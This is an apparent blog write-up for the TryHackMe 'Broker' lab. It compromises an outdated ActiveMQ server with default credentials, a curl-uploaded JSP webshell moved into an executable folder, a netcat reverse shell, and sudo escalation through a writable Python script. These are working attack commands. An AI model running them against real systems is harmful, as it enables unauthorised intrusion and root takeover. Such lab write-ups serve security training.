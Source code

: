 ```yaml
---
title: "Broker - TryHackMe"
date: "2021-03-14"
categories: 
  - "tryhackme"
tags: 
  - "chat-broker"
  - "directory-traversal"
  - "web"
---
```


Write-up for Tryhackme room [Broker](https://tryhackme.com/room/broker).

Difficulty Level - Medium

```
nmap --min-rate 300  -A -oN allport -p- $IP
```

![](/Images/broker/Screenshot-2021-03-14-180024.png)

As we can see website is running on port 8161, when we can browse to port we can see service called "**ActiveMQ**" which look little old.

![](/Images/broker/Screenshot-2021-03-14-180458-1024x230.png)

as you can see there is admin login link try to login with standerd credential

```
Ex : 

admin:admin

admin:password

admin:admin@123

admin:password@123

admin:password123
```

one these cred will work,after login first thought to check the exploit database.

![](/Images/broker/Screenshot-2021-03-14-181134-1024x183.png)

looks like its vulnerable for Directory Traversal, we could upload webshell to "**/fileserver**"

you can download webshell here [tennc](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp), or if you using **kali** as your OS we already have webshell in your PC just use this command to locate.

```
locate webshell

ls /usr/share/webshell/jsp/
```

I will be uploading shell using "**cURL**" you can use curl or burpsuit for upload the shell.

```
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://$IP:8161/fileserver/cmd.jsp
```

![](/Images/broker/Screenshot-2021-03-14-182830.png)

if you want to check file uploaded correctly we can curl file and see the result.

![](/Images/broker/Screenshot-2021-03-14-183021-1024x167.png)

looks like webshell uploaded correctly, but we can't execute it in /fileserver so we need to move to folder which we can execute for that we should know the path, with using curl we can find it too.

![](/Images/broker/Screenshot-2021-03-14-183725.png)

now we know the path where it located "**/opt/apache-activemq-5.9.0/webapps/fileserver/**"

since we know the path we can move the webshell location to where we can execute, which is **/admin** folder, use this command to move.

```
curl -u 'admin:admin' -X MOVE http://$IP:8161/fileserver/cmd.jsp --header 'Destination:file:///opt/apache-activemq-5.9.0/webapps/admin/cmd.jsp'
```

now enter this in URL and we have successful webshell.

```
http://$IP:8161/admin/cmd.jsp?cmd=COMMAND
```

![](/Images/broker/Screenshot-2021-03-14-184414-1024x563.png)

so now we can get easily get reverse shell,

```
#Copy any shells from any website
nc -e /bin/sh $IP 9999

#replace "space" with "plus" symbol 
nc+-e+/bin/sh+$IP+9999

#listen the nc on your machine
nc -lvnp 9999

#enter payload in url you get reverse shell.
```

now we have reverse shell but need to stabilize it use following command to stabilize the shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

export TERM=xterm

#press CTRL + Z then enter the last command

stty raw -echo; fg
```

## Privilege Escalation

lets see which command user can perform with sudo permission type "sudo -l"

![](/Images/broker/Screenshot-2021-03-14-185656.png)

we can execute **subscribe.py** in **/opt** directory which we have write permission also that mean all need to add small code or completely replace it and we will get root shell from it.

```
import os

os.system("bash")
```

add above code and save the file and execute with "**sudo**".

![](/Images/broker/Screenshot-2021-03-14-190624.png)

we finally root.

Happy Hacking!!!
